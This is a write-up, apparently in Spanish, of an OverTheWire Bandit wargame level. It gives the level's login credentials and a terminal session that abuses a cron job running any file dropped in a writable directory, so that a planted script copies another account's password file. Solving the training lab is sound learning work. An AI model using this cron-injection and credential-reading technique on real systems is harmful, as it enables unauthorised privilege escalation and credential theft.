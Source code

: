 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
-   Username: bandit23

-   Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

-   Host: bandit.labs.overthewire.org

-   Port: 2220

## Solución
```bash()
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$  cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
mkdir: cannot create directory ‘/tmp/kd’: File exists
bandit23@bandit:~$  cd /tmp/kd
bandit23@bandit:/tmp/kd$  echo "cat /etc/bandit_pass/bandit24 >
/tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh 
cat /etc/bandit_pass/bandit24 >
/tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$  touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$  ls –la
ls: cannot access '–la': No such file or directory
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ date
Tue Feb 28 06:26:35 PM UTC 2023
bandit23@bandit:/tmp/kd$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 2981 root     root     106496 Feb 28 18:26 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:25 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 18:24 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/kd$ exit
```

## Notas adicionales
Para poder realizar este nivel, podemos ver que tenemos un archivo llamado 'cronjob_bandit24.sh', este archivo toma todos los archivos de la ruta /var/spool/bandit24/foo y los ejecuta, por lo que le inyectaremos un comando en forma de archivo, que nos muestre la contraseña del nivel 24.
## Referencias 